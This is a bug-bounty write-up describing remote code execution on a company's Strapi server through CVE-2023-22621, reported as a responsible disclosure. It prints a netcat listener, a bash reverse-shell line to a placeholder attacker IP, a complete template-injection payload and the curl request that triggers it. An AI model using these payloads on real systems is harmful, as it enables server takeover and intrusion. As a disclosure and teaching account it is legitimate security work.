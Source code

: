 ```yaml
---
title: "Remote code execution in a billion-dollar publicly traded company"
date: 2024-02-10T21:43:57+08:00
author: ted
draft: false
---
```


There are 4 things that have to happen in order to find [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) in the wild:
 
- You need to find a website that is powered by [Strapi](https://strapi.io).
- The _super admin_ for this website, _somehow_, **has not been claimed yet**.
- The version of Strapi should be _at least_ **version 4.5.5 and below**.
- No other hacker _somehow_ saw any of the three aformentioned scenarios first.

The stars have 0ligned in my favor and I found exactly that in one of the websites of a _billion_ dollar company listed in the New York Stock Exchange. And I happen to be invited to their private [bug bounty program](https://en.wikipedia.org/wiki/Bug_bounty_program).

## Reconnaisance
I have a server that pings me of new subdomains of this company every 5pm Manila time so I can check them out after work.

Usually I don't find anything in my probes, and this one: **strapi.[redacted].com** also didn't trigger any alarms at first.
My automations pinged me about the subdomain of this website around early December 2023, but this website caught my attention during a manual inspection of the company assets that I did around early February 2024.

I couldn't believe it at first, but the _super admin_ registration for this website was open. And _somehow_, no other hacker had seen this before me:

![Admin Registration](/admin-registration.PNG)

Realizing this, was nothing short of exhilariting, since it's been months since I got a paid bug bounty.

## Escalation

Claiming the super admin of a website is nice and dandy, but like most other security researchers, I asked myself: "How can I escalate this to something even more severe?".

The next step was obvious, I googled: "strapi cve". One particular [CVE](https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures) instantly caught my attention: **[CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621)** which allows for an authenicated user to execute the highly coveted **[_remote code execution_](https://en.wikipedia.org/wiki/Arbitrary_code_execution).**

The CVE ticks all of the boxes:
- You need to have super admin access (I got that) ✔
- The version of Strapi should be 4.5.5 and below (This website is on Strapi v3.6.0) ✔

## Remote code execution

The CVE allows for a remote code execution via a [reverse shell](https://wiki.ubuntu.com/ReverseShell), which requires an attacker server waiting for incoming TCP connection from a victim server.

### Preparing the attacker server

I whipped up a small Digital Ocean droplet and using [netcat](https://en.wikipedia.org/wiki/Netcat) I had it listen to incoming TCP connections in port `1234`:

```sh
$ nc -lvnp 1234
```

- `-l` Instructs `netcat` to listen for incoming TCP connection rather than initiating a connection to a remote host.
- `-v` Produces more verbose output.
- `-n` Toggles `netcat` to not do any DNS or service lookups.
- `-p` Specifies the port to listen to.

### Executing the reverse shell payload

The reverse shell payload that worked for me after initial tests in my local network was the following:

```sh
bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'
```

Combining this with the NodeJs exploit described in the CVE, we get the following payload:

```js
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/bash","args":["/bin/bash","-c","bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
```

Now, [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) exploits a email template bypass in Strapi. Simply put, it runs when an attempt to send an email is sent. The initial configuration of Strapi allows admins to update the email confirmation template. This is where the payload is saved:

![Strapi RCE payload](/strapi-rce-payload.PNG)

### Exploitation

This exploit runs when a confirmation email is sent, so an API call that registers a new user to Strapi in order to execute the reverse shell is needed. This is a basic cURL command for that purpose:

```sh
$ curl -vvv -X POST -H 'Content-Type: application/json' -d '{"email":"tedminfosec+rce1@gmail.com", "username":"rcetrigger1", "password": "Test1234!"}' https://strapi.[redacted].com/auth/local/register/
```

Upon execution of the cURL command, Strapi attempts to validate the email template. The exploit then takes advantage of a template validation bypass runs the reverse shell payload via `node`. The reverse shell then initiates a TCP connection to my attacker server, which spawns a `bash` session.

Now the attacker machine has logged in to the server as `root`, **giving me total control of the server**:

```sh
root@[redacted]:/home/[redacted]/project/strapi# ls
ls
api    config      favicon.ico   package.json  README.md
build  extensions  node_modules  public        yarn.lock
```

In order to prove the RCE, I left an inconspicuous text file in the server. So I left one at `/root/tedminfosec.txt`:

```sh
root@[redacted]:/home/[redacted]/project/strapi# cat /root/tedminfosec.txt
hello from tedminfosec@wearehackerone.com
```

## Responsible disclosure

Once that's done, I took my time to write a detailed vulnerability report and submitted it to the bug bounty program. It was triaged as **Critical**:

![Strapi RCE triage](/strapi-rce-triage.jpg)

Now that's how I compromised a server of a company worth more than a billion dollars.